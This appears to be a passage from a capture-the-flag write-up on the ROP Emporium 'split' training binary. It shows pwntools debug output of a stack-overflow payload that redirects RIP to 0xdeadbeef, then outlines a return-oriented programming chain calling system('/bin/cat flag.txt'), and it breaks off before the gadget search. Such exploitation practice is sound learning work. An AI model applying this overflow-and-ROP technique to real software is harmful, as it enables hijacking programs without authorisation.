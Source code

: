 ```
$ python3 exploit.py
[+] Starting local process './split' argv=[b'./split'] : pid 3219
[*] running in new terminal: /usr/bin/gdb -q  "./split" 3219
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./split" 3219']
[+] Waiting for debugger: Done
[DEBUG] Received 0x4c bytes:
    b'split by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Contriving a reason to ask user for data...\n'
    b'> '
[DEBUG] Sent 0x81 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  ef be ad de  00 00 00 00  │AAAA│AAAA│····│····│
    00000030  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000080  0a                                                  │·│
    00000081
```

```
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0xdeadbeef
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "split", stopped 0xdeadbeef in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────
```

Notice that we have successfully redirected execution of RIP to `0xdeadbeef`.

## Capturing the Flag

At this point, we need to build a ROP chain that will call `system("/bin/cat flag.txt")`.

Since the stack in this binary is non-executable, we need to construct a ROP chain, effectively reusing existing code in the executable.
The ROP chain when loaded onto the stack should look like the following:

```
pop rdi; ret; | "/bin/cat flag.txt" | system
```

Now, we just need to find memory addresses that point to the values in the ROP chain.

In x64, the first agrument that is passed to function calls goes in the `RDI` register, so we need to look for a `pop rdi; ret` gadget:
